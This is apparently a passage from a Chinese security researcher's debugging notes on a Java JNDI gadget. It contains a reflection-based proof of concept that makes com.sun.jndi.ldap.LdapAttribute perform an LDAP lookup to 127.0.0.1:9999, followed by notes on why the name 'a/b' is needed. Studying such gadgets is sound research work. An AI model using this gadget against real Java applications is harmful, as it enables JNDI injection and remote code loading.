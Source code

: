 把断点下在 LdapCtx#

```java
import javax.naming.CompositeName;
import javax.naming.InitialContext;
import javax.naming.InvalidNameException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class poc {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, InvalidNameException {


            String ldapCtxUrl = "ldap://127.0.0.1:9999";

            Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
            Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                    new Class[] {String.class});
            ldapAttributeClazzConstructor.setAccessible(true);
            Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                    new Object[] {"name"});

            Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
            baseCtxUrlField.setAccessible(true);
            baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

            Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
            rdnField.setAccessible(true);
            rdnField.set(ldapAttribute, new CompositeName("a/b"));

            Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition");
            getAttributeDefinitionMethod.setAccessible(true);
            getAttributeDefinitionMethod.invoke(ldapAttribute);
    }
}
payload非常的简单只不过
 rdnField.set(ldapAttribute, new CompositeName("a/b"));  这个不太理解。为啥只有 a 后面有个/这个才可以
```

调试了半天也没找到缘由，只有 a/b才为2，别的普通字符串都是1作为了一个整体

![image-20231010211217469](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231010211217469.png)

![image-20231010210425878](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231010210425878.png)

我们发现只有这个为size 2才有 tail的值，分为了head和tail，毕竟我们需要的函数在满足if条件里面

![image-20231010211324947](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231010211324947.png)
